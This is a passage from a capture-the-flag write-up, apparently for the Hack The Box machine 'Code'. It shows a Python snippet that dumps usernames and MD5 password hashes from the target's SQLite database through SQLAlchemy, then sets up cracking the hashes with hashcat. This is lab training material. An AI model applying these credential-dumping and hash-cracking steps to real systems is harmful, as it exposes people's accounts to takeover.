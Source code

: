 <div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Bash
      <button class="copy-button" data-code="bash">Copy</button>
    </div>
    <pre><code class="language-bash" ><SQLAlchemy sqlite:////home/app-production/app/instance/database.db></code></pre>
  </div>
</div>

Now, we can extract information from the database by running the following script in the Python interpreter to retrieve usernames and passwords:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Bash
      <button class="copy-button" data-code="bash">Copy</button>
    </div>
    <pre><code class="language-bash" >users = db.session.query(User).all()
for user in users:
    print(user.username, user.password)</code></pre>
  </div>
</div>

The passwords are hashed, so we use `hash-identifier` to identify the hash type:

<div style="text-align: center;">
  <img src="../assets/images/Rooms/HTB/Code/8.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:inherit;">
</div>

They are **MD5**, which is vulnerable to cracking. Let's crack them using `hashcat`:
